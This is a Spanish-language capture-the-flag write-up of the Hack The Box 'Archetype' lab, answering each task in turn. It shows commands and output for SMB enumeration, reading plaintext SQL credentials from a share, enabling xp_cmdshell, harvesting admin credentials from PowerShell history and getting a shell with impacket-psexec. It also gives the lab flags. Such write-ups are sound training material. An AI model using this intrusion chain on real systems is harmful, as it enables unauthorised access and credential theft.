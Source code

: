 ```yaml
---
title: Archetype
date: 2025-04-17 00:00:00 +0200
categories: [writeup, hackthebox]
tags: [hackthebox, archetype, impacket]     
image:
    path: https://www.hackthebox.com/images/logo-htb.svg
    alt: Hack The Box
---
```


### Archetype

Como ya es constumbre se nos proponen una serie de tareas que vas cumpliendo para seguir avanzando hasta conseguir la bandera.

Task 1
``` shell
nmap -p- -vv -T4 10.129.194.128  
Which TCP port is hosting a database server?
Not shown: 65247 closed tcp ports (reset), 276 filtered tcp ports (no-response)
PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
1433/tcp  open  ms-sql-s     syn-ack ttl 127
5985/tcp  open  wsman        syn-ack ttl 127
47001/tcp open  winrm        syn-ack ttl 127
49664/tcp open  unknown      syn-ack ttl 127
49665/tcp open  unknown      syn-ack ttl 127
49666/tcp open  unknown      syn-ack ttl 127
49667/tcp open  unknown      syn-ack ttl 127
49668/tcp open  unknown      syn-ack ttl 127
49669/tcp open  unknown      syn-ack ttl 127
```
> 1433

Task 2

What is the name of the non-Administrative share available over SMB?
``` shell
 smbclient -L  //10.129.194.128/ADMIN$  
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
```
> backups

Task 3

What is the password identified in the file on the SMB share?

Montamos el recurso compartido con mount para samba usamos este flag "-t cifs".  Y ya podemos leer el contenido. 
``` shell
$ sudo mount -t cifs  //10.129.194.128/backups /mnt
Password for root@//10.129.194.128/backups: 

┌──(kali㉿kali25)-[/mnt]
└─$ cat prod.dtsConfig 
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>     
```
> M3g4c0rp123

Task 4

What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

En Kali25 este escript se invoka como impacket-mssqlclient, pero el script original se llama mssqlclient.py
Puedes encontralo aquí [hacktools/exploiting](../hacktools/#exploiting)

> mssqlclient.py

Task 5

What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

Conectamos con el script de impacket y utilizamos la ayuda, esta ya nos proporciona dos comandos que usaremos luego.

``` shell
┌──(kali㉿kali25)-[~]
└─$ impacket-mssqlclient ARCHETYPE/sql_svc@10.129.194.128 -windows-auth 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL (ARCHETYPE\sql_svc  dbo@master)> help

    lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonated
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
    ! {cmd}                    - executes a local shell cmd
    show_query                 - show query
    mask_query                 - mask query
```
> xp_cmdshell

Task 6

What script can be used in order to search possible paths to escalate privileges on Windows hosts?

Parce que usar xp_cmdshell sin usar enable_xp_cmdshell no nos permitía usar ningún comando, así que por este orden parece que
ya podemos ejecutar comandos en la máquina objetivo. 

``` shell
SQL (ARCHETYPE\sql_svc  dbo@master)> enable_xp_cmdshell
INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (ARCHETYPE\sql_svc  dbo@master)> 
SQL (ARCHETYPE\sql_svc  dbo@master)>   xp_cmdshell "whoami"
output              
-----------------   
archetype\sql_svc   

NULL                

```
Empiezo a jugar con este comando xp_cmdshell
```
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell dir *
output                                                                                                                      
--------------------------------------------------------------------------------                                            
 Volume in drive C has no label.                                                   

 Volume Serial Number is 9565-0B4F                                                 

NULL                                                                               

 Directory of C:\Windows\system32 
```
Encuentro un archivo interesante podría ser la bandera? Ah! más adelante nos la pedirán.
```
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "type c:\Users\sql_svc\Desktop\user.txt"
output                             
--------------------------------   
3e7b102e78218e935bf3f4951fec21a3 
 ```

Parece que buscando en el historial de PowerShell podemos recuperar información valiosa 
```
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "type  c:\users\sql_svc\appData\roaming\microsoft\windows\powershell\psreadline\consolehost_history.txt"
output                                                                    
-----------------------------------------------------------------------   
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

Una forma de conseguir una shell podría ser ejecutando una reverse shell [hacktools/exploiting](../hacktools/#exploiting)
Pero parece que con psexec de impacket podemos aprovechar las credenciales obtenidas y directamente obtener una. 
```
┌──(kali㉿kali25)-[~]
└─$ impacket-psexec administrator@10.129.194.128
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

c:\Users\Administrator\Desktop> type root.txt
b91ccec3305e98240082d4474b848528

```

Task 7

What file contains the administrator's password?

Recuerda limpiar tu historial de comandos señor administrador su historial podría estar =>
**c:\users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSreadline\consolehost_history.txt**

> consolehost_history.txt

Submit Flag

Submit user flag
> 3e7b102e78218e935bf3f4951fec21a3

Submit Flag
> b91ccec3305e98240082d4474b848528

Submit root flag [Achivement](https://www.hackthebox.com/achievement/machine/2336390/287)